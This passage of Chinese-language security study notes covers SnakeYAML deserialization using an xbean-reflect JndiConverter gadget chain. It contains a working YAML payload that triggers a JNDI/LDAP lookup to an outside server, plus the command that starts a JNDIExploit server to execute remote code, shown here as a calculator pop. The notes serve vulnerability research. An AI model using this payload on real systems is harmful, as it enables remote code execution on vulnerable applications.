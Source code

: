 ###### 基于 xbean-reflect

这是学习[FasterXML jackson-databind](https://github.com/pen4uin/JavaSec/tree/main/jackson-databind)时用到的一条链，照猫画虎，构造payload

弹计算器

```java
String evilText = "!!org.apache.xbean.propertyeditor.JndiConverter\n asText: \"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"";
```

LDAP服务端

```
java -jar .\JNDIExploit-1.4-SNAPSHOT-modified.jar -i 10.10.10.1
```

 ![image-20220124164807399](snakeyaml.assets/image-20220124164807399.png)

测试效果

 ![image-20220125145833353](snakeyaml.assets/image-20220125145833353.png)

###### 基于 more gadgets

经过以上测试的两条链

- JdbcRowSetImplfastjson、对应Fastjson
- xbean-reflect、对应Jackson

推导出SnakeYaml的反序列化可以使用Fastjson 和 Jackson 的利用链，从而得出SnakeYaml的反序列化漏洞的原理【先给出结论再分析】

```
反序列化的过程中调用了setter方法
```
